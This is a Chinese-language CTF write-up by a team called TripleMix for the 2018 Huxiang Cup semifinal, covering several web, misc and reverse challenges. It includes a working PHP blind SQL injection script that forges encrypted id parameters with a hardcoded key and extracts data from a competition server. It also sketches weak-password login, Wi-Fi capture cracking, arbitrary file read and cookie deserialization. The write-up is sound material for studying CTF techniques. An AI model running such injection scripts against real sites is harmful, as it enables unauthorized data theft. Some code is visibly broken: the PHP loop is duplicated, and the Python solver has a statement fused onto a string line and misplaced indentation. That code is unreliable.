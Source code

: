 ```yaml
---
layout: post
title: 2018湖湘杯复赛writeup
author: "TripleMix战队"
header-style: text
lang: zh
tags:
  - writeup
  - ctf
  - web
---
```


>感谢lwy和pjj两位大佬带我飞

# 签到题SingIn  Welcome
关注合天智汇公众号
# Code Check(web)
御剑扫描，发现news目录可以下载到list.php的源码：
![](/img/in-post/post-2018湖湘杯-writeup/image2.png)
![](/img/in-post/post-2018湖湘杯-writeup/image3.png)
![](/img/in-post/post-2018湖湘杯-writeup/image4.png)
发现只要构造一个请求包将id逆向加密AES128的CBC模式，并base64两次，就可以布尔sql注入，编写代码，经过一番寻找发现flag在notic2中
```
<?php 

function decode($data){
	$td = mcrypt_module_open(MCRYPT_RIJNDAEL_128,'',MCRYPT_MODE_CBC,'');
	mcrypt_generic_init($td,'ydhaqPQnexoaDuW3','2018201920202021');
	$data = mdecrypt_generic($td,base64_decode(base64_decode($data)));
	mcrypt_generic_deinit($td);
	mcrypt_module_close($td);
	if(substr(trim($data),-7)!=='hxb2018'){
		echo '<script>window.location.href="/index.php";</script>';
	}else{
		return substr(trim($data),0,strlen(trim($data))-7);
	}
}


function encode($data){
$data=strval($data)."hxb2018";
$td = mcrypt_module_open(MCRYPT_RIJNDAEL_128,'',MCRYPT_MODE_CBC,'');
mcrypt_generic_init($td,'ydhaqPQnexoaDuW3','2018201920202021');
$data = mcrypt_generic($td,$data);

$data=base64_encode(base64_encode($data));


//echo $data;
return $data;
}
//echo substr(trim('123456789'),-7);
function fuck($data){
$url='http://47.107.164.116:49882/news/list.php?id='.strval($data);
//echo $url;
$html = file_get_contents($url);
//echo $html;
return $html;
}
for ($i=1; $i<=100; $i++) {
  for ($c=33; $c<=125; $c++) {
	  //echo chr($c);
  if(strpos(fuck(encode('1 and ascii(substring((select title from notice2),'.strval($i).',1))='.strval($c))),'XWAY')!==false)
  {
  		echo chr($c);
  		break;
  }
} 
} for ($i=1; $i<=100; $i++) {
  for ($c=33; $c<=125; $c++) {
	  //echo chr($c);
  if(strpos(fuck(encode('1 and ascii(substring((select title from notice2),'.strval($i).',1))='.strval($c))),'XWAY')!==false)
  {
  		echo chr($c);
  		break;
  }
} 
} 
```

# flow (misc)
发现是802.11协议，猜测为wifi密码破解，使用wifipr破解
![](/img/in-post/post-2018湖湘杯-writeup/image6.png)
使用密码password1来在wireshark里解密流量包，跟踪tcp协议发现flag
![](/img/in-post/post-2018湖湘杯-writeup/image7.png)
![](/img/in-post/post-2018湖湘杯-writeup/image8.png)

# XmeO (web)
进去系统后，尝试弱密码admin/admin发现进入后台，根据已有的条目怀疑是模板注入，使用内容搜索即可得到flag
![](/img/in-post/post-2018湖湘杯-writeup/image9.png)
![](/img/in-post/post-2018湖湘杯-writeup/image10.png)

# Disk (misc)
使用winhex打开该镜像，浏览分区1，发现4个txt里具有ntfs流隐藏
![](/img/in-post/post-2018湖湘杯-writeup/image11.png)
按照顺序打开这些ads，发现是一堆01，将其转化为字符串得到flag
![](/img/in-post/post-2018湖湘杯-writeup/image12.png)

# Replace (reverse)
Peid查壳发现是upx，先脱壳
![](/img/in-post/post-2018湖湘杯-writeup/image13.png)
发现加密的主要逻辑
![](/img/in-post/post-2018湖湘杯-writeup/image15.png)
逆向计算
```
iv='2a49f69c38395cde96d6de96d6f4e025484954d6195448def6e2dad67786e21d5adae6'
iv2='a49f69c38395cde96d6de96d6f4e025484954d6195448def6e2dad67786e21d5adae6'
f='\x03\x7C\x77\x7B\xF2\x6B\x6F\xC5\x30\x01\x67\x2B\xFE\xD7\xAB\x76\xCA\x82\xC9\x7D\xFA\x59\x47\xF0\xAD\xD4\xA2\xAF\x9C\xA4\x72\xC0\xB7\xFD\x93\x26\x36\x3F\xF7\xCC\x34\xA5\xE5\xF1\x71\xD8\x31\x15\x04\xC7\x23\xC3\x18\x96\x05\x9A\x07\x12\x80\xE2\xEB\x27\xB2\x75\x09\x83\x2C\x1A\x1B\x6E\x5A\xA0\x52\x3B\xD6\xB3\x29\xE3\x2F\x84\x53\xD1\x00\xED\x20\xFC\xB1\x5B\x6A\xCB\xBE\x39\x4A\x4C\x58\xCF\xD0\xEF\xAA\xFB\x43\x4D\x33\x85\x45\xF9\x02\x7F\x50\x3C\x9F\xA8\x51\xA3\x40\x8F\x92\x9D\x38\xF5\xBC\xB6\xDA\x21\x10\xFF\xF3\xD2\xCD\x0C\x13\xEC\x5F\x97\x44\x17\xC4\xA7\x7E\x3D\x64\x5D\x19\x73\x60\x81\x4F\xDC\x22\x2A\x90\x88\x46\xEE\xB8\x14\xDE\x5E\x0B\xDB\xE0\x32\x3A\x0A\x49\x06\x24\x5C\xC2\xD3\xAC\x62\x91\x95\xE4\x79\xE7\xC8\x37\x6D\x8D\xD5\x4E\xA9\x6C\x56\xF4\xEA\x65\x7A\xAE\x08\xBA\x78\x25\x2E\x1C\xA6\xB4\xC6\xE8\xDD\x74\x1F\x4B\xBD\x8B\x8A\x70\x3E\xB5\x66\x48\x03\xF6\x0E\x61\x35\x57\xB9\x86\xC1\x1D\x9E\xE1\xF8\x98\x11\x69\xD9\x8E\x94\x9B\x1E\x87\xE9\xCE\x55\x28\xDF\x8C\xA1\x89\x0D\xBF\xE6\x42\x68\x41\x99\x2D\x0F\xB0\x54\xBB\x16'ans=''
for i in range(0,35):
	for c in range(33,126):
		v6=(c>>4)%16
		v7=(16*c>>4)%16
		v8=ord(iv[2*i])
		if v8<48 or v8>57:
			v9=v8-87
		else:
			v9=v8-48
			v10=ord(iv2[2*i])
			v11=16*v9
		if v10<48 or v10>57:
			v12=v10-87
		else:
			v12=v10-48
		if ord(f[16*v6+v7])==(v11+v12)^0x19:
			print chr(c)
			ans=ans+chr(c)
print ans
```

# Readflag  (web)
首先查看apache配置文件路径
![](/img/in-post/post-2018湖湘杯-writeup/image17.png)
猜测flag文件名称
![](/img/in-post/post-2018湖湘杯-writeup/image18.png)

# MyNote  (web)
发现picture功能可以任意文件读取，cookie中存在反序列化，只要相应构造Picture这个序列化cookie
![](/img/in-post/post-2018湖湘杯-writeup/image19.png)
![](/img/in-post/post-2018湖湘杯-writeup/image20.png)